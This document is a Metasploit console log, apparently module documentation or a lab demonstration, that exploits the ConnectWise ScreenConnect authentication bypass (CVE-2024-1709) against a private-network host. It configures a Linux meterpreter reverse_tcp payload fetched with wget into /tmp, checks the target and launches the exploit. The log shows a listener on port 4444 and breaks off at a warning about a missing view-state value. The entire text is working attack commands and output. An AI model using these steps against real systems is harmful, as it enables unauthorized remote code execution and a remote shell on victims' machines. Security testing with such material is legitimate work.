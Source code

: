 ```
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set RHOST 192.168.86.72
RHOST => 192.168.86.72
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set target 2
target => 2
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp 
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set FETCH_COMMAND WGET
FETCH_COMMAND => WGET
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set FETCH_WRITABLE_DIR /tmp
FETCH_WRITABLE_DIR => /tmp
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > show options

Module options (exploit/multi/http/connectwise_screenconnect_rce_cve_2024_1709):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.72    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8040             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      whUoZoNn         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > check
[*] 192.168.86.72:8040 - The target appears to be vulnerable. ConnectWise ScreenConnect 20.3.31734 running on Linux.
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ConnectWise ScreenConnect 20.3.31734 running on Linux.
[!] Did not locate the __VIEWSTATEGENERATOR.
```